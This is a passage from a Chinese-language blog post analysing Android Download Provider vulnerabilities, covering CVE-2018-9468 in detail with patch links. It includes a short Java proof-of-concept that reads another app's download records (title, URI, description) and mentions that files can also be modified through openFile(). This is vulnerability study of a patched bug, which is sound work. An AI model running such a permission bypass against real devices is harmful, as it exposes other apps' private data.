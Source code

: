 [原文](https://mabin004.github.io/2019/04/15/Android-Download-Provider%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90/)
IOActive的安全研究员Daniel Kachakil发现了Android Download Provider相关的几个漏洞（CVE-2018-9468, CVE-2018-9493, CVE-2018-9546）,漏洞原理看似简单却十分有趣，这里总结一下。

原文链接：https://ioactive.com/multiple-vulnerabilities-in-androids-download-provider-cve-2018-9468-cve-2018-9493-cve-2018-9546/

Download Provider
首先了解下Download Provider。Android系统的ContentProvider类似于应用数据库，用于共享自己的数据被其他的应用程序访问。Android提供了一套处理其他App下载请求的机制，例如浏览器的下载、邮件附件的下载、OTA升级包下载等。其中Download Manager用来处理下载请求，DownloadManager下载过程中，会将下载的数据和下载的状态插入ContentProvider中，完成下载后使用ContentProvider来提供下载内容给请求方APP。

使用DownloadManager下载文件的示例代码如下：

//创建下载请求
DownloadManager.Request req = new DownloadManager.Request(Uri.parse("http://www.qq.com"));
//设置下载路径
File saveFile = new File(Environment.getExternalStorageDirectory(), "demo.apk");
req.setDestinationUri(Uri.fromFile(saveFile));

	DownloadManager manager = (DownloadManager) getApplicationContext().getSystemService(Context.DOWNLOAD_SERVICE);

// 将下载请求加入下载队列, 返回一个下载ID
long downloadId = manager.enqueue(req);
关于Download Provider我们需要了解以下几点：

下载完成后，APP访问下载进度、下载状态、下载文件数据等都需要通过download_id来访问，Download Provider提供了三种方式 参考：
content://downloads/public_downloads/(download_id)
公开下载的文件，不需要任何权限
content://downloads/all_downloads/(download_id)
访问所有的下载文件，需要ACCESS_ALL_DOWNLOADS权限（Signature级别的权限）
content://downloads/my_downloads/(download_id)
访问应用自己下载的文件
Download Provider由系统应用com.android.providers.downloads实现，因此作为一个应用，下载保存的位置只可能为public sdcard、private sdcard以及/data/data/com.android.providers.downloads 目录内，如不指定路径，默认下载位置为/data/data/com.android.providers.downloads/cache/
Download Provider实现了一套访问控制机制，应用只能访问自己下载的文件，无权限访问其他应用下载的文件，因此遍历download_id是不可行的。（当然保存在sdcard的文件除外，因为只要有sdcard权限就可以读文件了）
我们知道ContentProvider如果配置不当，可能导致信息泄露、目录穿越等问题，同样如果Download Provider的实现中配置不当有可能带来一些安全问题，下面依次展开这三个漏洞。

CVE-2018-9468: Download Provider权限绕过
正常情况下，APP只能访问自己下载的文件，然而由于content://downloads/public_downloads/(download_id)未做好权限控制，导致可以通过遍历download_id访问所有其他app的下载文件，包括文件下载时的title, description, size, full URL等等。

漏洞修复前后的对比https://android.googlesource.com/platform/packages/providers/DownloadProvider/+/544294737dfc3b585465302f1f784a311659a37c%5E%21/#F0

从补丁来看，Android是删掉了public_downloads这个ContentProvider

upload successful

PoC代码如下：

//1493 其他app下载的
//1492 自己app下载的
ContentResolver res = getContentResolver();
Uri uri = Uri.parse("content://downloads/my_downloads/1493");
Cursor cur = res.query(uri,null,null,null,null,null);
cur.moveToFirst();
String rowdata = cur.getString(cur.getColumnIndex("_data"));
String rowUri = cur.getString(cur.getColumnIndex("uri"));
String rowTitle = cur.getString(cur.getColumnIndex("title"));
String rowdescription = cur.getString(cur.getColumnIndex("description"));
Log.d("m4bln",rowTitle);
Log.d("m4bln",rowUri);
Log.d("m4bln",rowdescription);
除了读取其他app下载的文件外，还可以利用openFile()进行修改。Content Provider的openFile是通过query()对文件定位的,因此该漏洞也会影响openFile()。
